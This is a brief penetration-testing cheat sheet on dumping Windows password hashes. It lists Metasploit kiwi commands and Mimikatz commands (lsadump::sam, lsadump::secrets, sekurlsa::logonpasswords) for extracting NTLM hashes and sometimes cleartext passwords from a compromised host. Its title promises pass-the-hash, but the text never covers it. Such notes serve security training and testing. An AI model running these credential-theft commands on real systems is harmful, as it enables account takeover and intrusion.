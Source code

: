 # Hash Dumping and Pass-the-Hash

Once a meterpreter session is gained with NT Authority rights, we can dump the passwordhashes.

First we will utilize kiwi, which is an extension of meterpreter, based on Mimikatz.

#### Kiwi Metasploit

load kiwi

? --> to open up help menu

lsa_dump_sam --> to get Administrator and all user NTLM Hashes.

hashdump --> to get the total hash LM Hash & NTLM Hash.


#### Mimikatz Locally

privilege::debug --> to check if u have privs to perform hash extraction

lsadump::sam

lsadump::secrets --> sometimes displays clear text passwords

sekurlsa::logonpasswords --> to check auth logs 

